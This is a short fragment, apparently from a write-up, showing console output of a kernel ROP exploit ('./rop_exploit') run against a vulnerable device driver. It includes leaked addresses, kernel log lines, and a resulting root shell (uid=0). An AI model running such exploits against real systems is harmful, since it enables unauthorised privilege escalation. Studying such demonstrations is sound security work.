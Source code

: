   ```sh
  / $ ./rop_exploit ffffffffa0002340 18446744073645214365 21
  array base address = 0xffffffffa0002340
  stack address = 0x81527828
  [  165.879158] device opened!
  [  165.888184] size = fffffffffc2a4a9d
  [  165.892331] fn is at ffffffff81527828
  / # id
  uid=0 gid=0
  ```